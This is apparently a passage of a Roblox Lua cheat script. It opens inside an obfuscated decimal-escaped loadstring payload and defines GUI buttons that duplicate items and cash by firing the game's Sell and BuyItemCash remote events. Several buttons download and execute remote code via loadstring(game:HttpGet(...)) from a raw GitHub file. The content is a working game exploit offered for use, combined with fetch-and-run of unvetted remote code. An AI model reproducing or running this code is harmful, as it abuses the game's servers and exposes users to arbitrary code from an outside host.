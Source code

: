 101\108\115\101\10\9\9\114\101\116\117\114\110\32\110\111\116\105\102\121\40\34\83\101\114\118\101\114\104\111\112\34\44\34\67\111\117\108\100\110\39\116\32\102\105\110\100\32\97\32\115\101\114\118\101\114\46\34\41\10\9\101\110\100\10\101\110\100\41\10\10\120\46\78\97\109\101\32\61\32\34\120\34\10\120\46\80\97\114\101\110\116\32\61\32\70\114\97\109\101\10\120\46\66\97\99\107\103\114\111\117\110\100\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\66\111\114\100\101\114\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\80\111\115\105\116\105\111\110\32\61\32\85\68\105\109\50\46\110\101\119\40\48\46\56\54\52\55\54\56\54\56\52\44\32\48\44\32\48\44\32\48\41\10\120\46\83\105\122\101\32\61\32\85\68\105\109\50\46\110\101\119\40\48\44\32\55\54\44\32\48\44\32\53\48\41\10\120\46\70\111\110\116\32\61\32\69\110\117\109\46\70\111\110\116\46\79\115\119\97\108\100\10\120\46\84\101\120\116\32\61\32\34\88\34\10\120\46\84\101\120\116\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\50\53\53\44\32\50\53\53\44\32\50\53\53\41\10\120\46\84\101\120\116\83\99\97\108\101\100\32\61\32\116\114\117\101\10\120\46\84\101\120\116\83\105\122\101\32\61\32\49\52\46\48\48\48\10\120\46\84\101\120\116\87\114\97\112\112\101\100\32\61\32\116\114\117\101\10\120\46\68\114\97\103\103\97\98\108\101\32\61\32\116\114\117\101\10\120\46\77\111\117\115\101\66\117\116\116\111\110\49\68\111\119\110\58\99\111\110\110\101\99\116\40\102\117\110\99\116\105\111\110\40\41\10\9\103\97\109\101\46\67\111\114\101\71\117\105\46\83\99\114\101\101\110\71\117\105\58\68\101\115\116\114\111\121\40\41\10\101\110\100\41\10")()
	end)
	local Tab     = Window:NewTab("Auto drop items")
	local Section = Tab:NewSection("Drop items :)")
	Section:NewButton("Drop banana ", "Drop banana", function()
		getgenv().item_name = "The banana" -- Change this to what you want to autodupe
		loadstring(game:HttpGet('https://raw.githubusercontent.com/THEBESTHAGEG/LOLOLO/main/README.md'))()
	end)
	Section:NewButton("Drop Ben", "Drop Ben", function()
		getgenv().item_name = "Trading Ben" -- Change this to what you want to autodupe
		loadstring(game:HttpGet('https://raw.githubusercontent.com/THEBESTHAGEG/LOLOLO/main/README.md'))()
	end)
	local Tab     = Window:NewTab("IF U GET REAPED CLICK HERE")
	local Section = Tab:NewSection("1.U NEED TO SELL THE REAPER")
	Section:NewButton("1.get money", "Buy item dupe cash", function()
		local args = {
			[1] = "Gummy Blue"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Gummy Blue"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	Section:NewButton("2.click here to get more", "Buy item dupe cash", function()
		local args = {
			[1] = "Ladder"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Ladder"
		}
